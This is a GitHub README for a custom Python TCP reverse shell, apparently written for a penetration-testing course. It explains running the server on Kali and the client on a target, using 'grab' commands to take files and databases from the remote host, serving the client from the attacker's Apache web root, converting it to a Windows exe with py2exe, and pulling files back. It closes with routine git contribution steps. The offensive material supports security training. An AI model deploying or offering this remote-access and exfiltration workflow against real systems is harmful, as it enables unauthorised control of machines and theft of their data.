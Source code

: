 Custom Python TCP reverse Shell

two main files

1. ClientTCPreverseShell
2. ServerTCPreverseShell

Edit the ip address and ports within the client and server before using. 

I am currently adding modules but they are not being used yet. 

usage
command line run >>> python ServerTCPreverseShell.py
command line run >>> python ClientTCPreverseShell.py

From shell start the server first then start the client. 

$$$> python ServerTCPReverseShell.py

$$$> python ClientTCPreverseShell.py

The server will have to be run from command line however the client can be run from Gui or commandline

The server shell on the linux side will start with a /bin/sh -i
I am currently working on changing shells and tab completing.  

--help && --commands

TO Exfil data
Shell> grab*exfil_data.txt
This command will grab the file you want and save it to your local desktop as a .txt file

Step1 for grab command
You will have to rename the .txt file to whatever suffix you downloaded from the remote hose.
Example. The command below will grab the database and copy it to your local desktop as a .txt file
Shell>grab*exfil_database.sdf

step2 for grab command
Just rename the .txt file to the proper suffix 
Shell>> cp exfil_database.txt exfil_database.sdf


TO get the environment
Shel> getenv
This will print the platform details

TO get the User ID
Shell>getuid

Notes below are for use with PWK course

You can upload the client to the windows 7 workstation in order to convert to exe
Before you start you will want to zip up the client and move to your web folder. 

step 1
move the client to your /var/www/html folder

step2 
start the apache2 webserver

step3 
remote desktop into the windows 7 box

step4 
browse to your attacker machine through internet explorer
http://ipaddress/ClientTCPrevshell.py

step5
upload the pyexe program to the windows 7 server in the same fashion. 

You can convert Client to exe format. 
Convert "ClientTCPrevshell" to EXE format. 
Get py2exe for windows and make sure to get the correct python versian.
https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/
copy to your var/www/html folder and upload to your windows 7 machine.

Install py2exe and then move the py2exe program into the same folder as 
ClientTCPreverseShell and setup.py

Edit setup.py with idle by right clicking and edit with idle. 

then run module

then test your new custom python exe shell. Copy the exe from the "dist" folder
to the desktop and start the server on kali.

next you will want to bring your .exe file back to the local kali attacker workstation. 
To do this you will just use the custom TCP Shell to grab your exe and move it back to the host. 

Step one
zip up your new custom EXE python shell and from the python server on kali

Shell> grab*Clientshell.zip

now go to your desktop and rename test.txt to ClientShell.zip

Works for me and will work for you!!!


to help with the project fork project and add a new branch. I will merge the requests. 
https://code.tutsplus.com/articles/team-collaboration-with-github--net-29876
$ git clone [ssh-url] [folder-name]
$ cd [folder-name]
$ git checkout -b [new-feature]
$ git add .
$ git commit -m "information added in readme"
$ git checkout master
e will push the branch to the remote repository. For this we will first check the branch name with the new feature as well as the git
remote repository aliases. Then we will push the changes using
$git push [git-remote-alias] [branch-name]:
$ git branch
* master
readme
$ git remote -v
origin  git@github.com:[forked-repo-owner-username]/[repo-name].git (fetch)
origin  git@github.com:[forked-repo-owner-username]/[repo-name].git (push)
$ git push origin readme




